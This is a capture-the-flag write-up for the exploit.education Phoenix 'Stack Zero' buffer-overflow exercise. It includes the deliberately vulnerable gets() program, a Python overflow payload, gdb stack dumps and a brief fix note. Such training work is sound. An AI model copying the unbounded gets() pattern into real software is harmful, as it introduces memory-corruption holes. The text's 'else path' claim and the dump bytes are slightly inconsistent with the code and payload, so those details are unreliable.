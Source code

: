 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x0"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack Zero](https://exploit.education/phoenix/stack-zero/)

<!--more-->

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
    "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
    struct {
        char buffer[64];
        volatile int changeme;
    } locals;

    printf("%s\n", BANNER);

    locals.changeme = 0;
    gets(locals.buffer);

    if (locals.changeme != 0) {
        puts("Well done, the 'changeme' variable has been changed!");
    } else {
        puts(
            "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
    }

    exit(0);
}
```

The goal of this challenge is to force the program to branch to the else path.
This can be easily achieved by overwriting the `buffer` member of the `locals` struct. By writing past the bounds (vulnerable function is `gets`) of `buffer`, the 32-bit integer `changeme` can be overwritten.

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64 + "B"*4' | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

# Debugging

Stack before the call to `gets`:

```bash
(gdb) x/32xw $esp
0xffffd554:     0x00000000      0x0000006f      0x00000010      0x080482b4
0xffffd564:     0x08048551      0x00000000      0x0000004e      0x00000000
0xffffd574:     0x00000000      0x00000000      0x00000000      0x00000011
0xffffd584:     0xf7ffd19c      0x00000000      0x08048294      0x00000000
0xffffd594:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5a4:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffd5b4:     0xffffd5d0      0xffffd650      0xf7f8f654      0xffffd644
0xffffd5c4:     0x00000002      0xffffd650      0xf7f8f654      0x00000002
```

After the overflow:

```bash
(gdb) x/32xw $esp
0xffffd550:     0xffffd56c      0x00000000      0x0000006f      0x00000010
0xffffd560:     0x080482b4      0x08048551      0x00000000      0x41414141
0xffffd570:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd580:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd590:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5a0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x00006141      0xffffd650      0xf7f8f654
```

# Fix

This vulnerability can be remediated by properly checking the bounds of the input data.
